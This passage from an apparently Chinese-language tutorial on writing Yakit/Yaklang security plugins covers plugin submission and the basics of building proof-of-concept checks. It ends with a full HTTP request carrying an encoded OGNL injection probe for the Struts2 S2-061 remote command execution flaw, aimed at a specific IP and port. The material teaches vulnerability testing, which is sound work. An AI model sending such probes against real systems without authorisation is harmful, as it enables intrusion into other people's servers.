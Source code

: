 这里我说点击了第二，就是提交并保存，这个需要给作者审核，所以如果你觉得出现错误了，你如果觉得修改的没问题可以提到给作者，如果你只是本地使用，其他的第一、第二、第三、都可以保存在你个人下面。

![image-20241120102418636](assets/image-20241120102418636.png)

### 2.3.2. 插件编写

关于插件编写这里会比较复杂点，当然我说的是从头开始一句一句写，这个建议你去看官方的教程，这里我只演示一种简单的写法。

[插件概述：定义与基础类型 | Yak Program Language](https://www.yaklang.io/products/Plugin-repository/plugins/plugin_type)

本质上这种简单的写法在我之前的写过的Python编写POC与EXP中基本上一致，感兴趣的可以去翻一翻，看完基本上你也就懂怎么编写了。这里我单数列一个大标题。

## 2.4. 插件编写详细

首先来说一下POC的编写，EXP编写需要自行去看官方文档，由于会涉及到很多的跳转比较麻烦，我一句两句也说不清楚。

POC编写原理：首先获取请求包，比如`http://123.58.224.8:34959/`在这个系统存在漏洞Struts2 S2-061 远程命令执行漏洞，那么我们使用yakit抓包后，修改请求的路径，得到一个POC：

漏洞原理我简单说一下，就是抓到包后，添加`/?id=%25%7b+%27test%27+%2b+(2100+%2b+20).toString()%7d`然后在响应包中查看是否存在test2120，如果存在那么就证明存在漏洞。

```
GET /?id=%25%7b+%27test%27+%2b+(2100+%2b+20).toString()%7d HTTP/1.1
Host: 123.58.224.8:34959
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=node0123w97o8sjaho1sm02sxrdphsv0.node0
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
```
